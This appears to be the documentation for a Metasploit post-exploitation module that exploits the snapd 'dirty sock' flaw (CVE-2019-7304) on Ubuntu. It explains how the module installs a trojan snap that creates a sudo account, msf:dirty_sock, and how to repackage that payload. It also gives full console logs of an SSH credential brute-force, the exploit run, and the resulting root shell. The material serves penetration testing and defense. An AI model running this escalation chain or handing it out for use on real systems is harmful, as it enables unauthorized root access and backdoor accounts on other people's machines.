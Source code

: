 ## Vulnerable Application

This module exploits a vulnerability in the snapd service <2.34.2 on Ubuntu
14.04-18.04 and <2.35.5 on Ubuntu 18.10.
The service incorrectly parses a unix socket file name
containing a UID parameter, and honors it as the UID for the process.

Exploitation can be complicated since the snap container is run from a sandbox
with limited read/write to some files on the filesystem.  The exploit creates
a new user with sudo privileges, by default msf:dirty_sock.  Upon successful
exploitation, the credentials may take a minute to become viable.

Exploitation will also cause snapd to perform an auto-update, so this is
a one shot exploit.

### Extra Information

This module utilizes a snap package for exploitation.  A snap package is a squashfs
file which we base64 encode for easy delivery.  The snap package is run inside a sandbox
so exploitation vectors are limited.  The following were attempted to get a remote payload
to run:

1. Add a job to `/etc/crontab`. The snap package could read crontab, but was not able to write
2. Read/Write to the system `/tmp`. The snap package does not view the system `/tmp` but rather
a sandboxed `/tmp`.
3. Utilize networking (`curl`) to get a remote payload. Adding `network` to the snap package
did not result in the ability to successfully `curl` a payload from the attacker.
4. Dynamically add a payload to the snap package. There is limited to no support for dynamically
editing a `squashfs` file within ruby.  Since `squashfs` is compressed, attempts to perform raw
edits on the payload inside the base64 had very limited success and were not stable.

Also of note, attempts to stop snap from updating itself were unsuccessful. Bundling an edit to
`/etc/hosts` as documented here: https://askubuntu.com/questions/930593/how-to-disable-autorefresh-in-snap
did not prevent udpating. A second attempt to set `snap` to use a proxy directly as documented here:
https://discuss.linuxcontainers.org/t/disable-snap-auto-refresh-immediately/5333 were also
not successful.

### Altering Default Payload

The default payload is to create a new user with the `msf` username and `dirty_sock`
password.  However, it is relatively easy to edit the payload

To create a new payload:

1. `mkdir /tmp/snap_squash; cd /tmp/snap_squash`
2. `sudo unsquashfs <metasploit_root>/data/exploits/CVE-2019-7304/squash.fs`
3. Make any changes you want. This will most likely be in the `squashfs-root/meta/hooks/install`
or `squashfs-root/meta/snap.yaml` files
4. `mksquashfs /tmp/snap_squash/squashfs-root/ /tmp/snap_payload`
5. Now within metasploit after loading the module `set squash /tmp/snap_payload`

## Verification Steps

1. Start msfconsole
2. Get a shell on a vulnerable box
3. Do: `use post/linux/escalate/ubuntu_snapd_socket_privesc`
4. Do: `set session [#]`
5. Do: `run`
6. You should get a "Success!", and able to able to SSH in to the remote box, then `sudo` to root.

## Options

### SQUASH

This is the squashFS file with a snap package. See instructions in this document to modify it.

## Scenarios

### snapd 2.29.4.2 on Ubuntu 16.04


#### Initial Shell
```
[*] Processing snapd.rb for ERB directives.
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username ubuntu
username => ubuntu
resource (snapd.rb)> set password ubuntu
password => ubuntu
resource (snapd.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46713 -> 111.111.1.111:22 ) at 2022-03-15 18:52:06 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Priv Esc
```
resource (snapd.rb)> use post/linux/escalate/ubuntu_snapd_socket_privesc
resource (snapd.rb)> set session 1
session => 1
resource (snapd.rb)> set verbose true
verbose => true
resource (snapd.rb)> run
[*] Found snapd 2.29.4.2 on Ubuntu 16.04
[*] Using 'python' to run exploit
[*] Writing exploit to /tmp/.nUIPGYbWr7
[*] Max line length is 65537
[*] Writing 13110 bytes in 1 chunks of 48973 bytes (octal-encoded), using printf
[*] Launching exploit: python /tmp/.nUIPGYbWr7
[*] [+] Slipped dirty sock on random socket file: /tmp/qkmqdejlyv;uid=0;
[*] [+] Binding to socket file...
[*] [+] Connecting to snapd API...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] [+] Installing the trojan snap (and sleeping 8 seconds)...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] Success!
[+] Success! You can now login and sudo with msf:dirty_sock. However it may take several minutes for the account to finish creation.
[*] Post module execution completed
resource (snapd.rb)> sleep 30
```

#### Use new creds
```
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username msf
username => msf
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'msf:dirty_sock' 'uid=1001(msf) gid=1001(msf) groups=1001(msf),27(sudo) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (2.2.2.2:43069 -> 111.111.1.111:22 ) at 2022-03-15 18:53:08 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (snapd.rb)> use multi/manage/sudo
resource (snapd.rb)> set session 2
session => 2
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] Sudoing with password `dirty_sock'.
[+] SUDO: Root shell secured.
[*] Post module execution completed
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

snap version
snap    2.54.4
snapd   2.54.4
series  16
ubuntu  16.04
kernel  4.4.0-112-generic
```
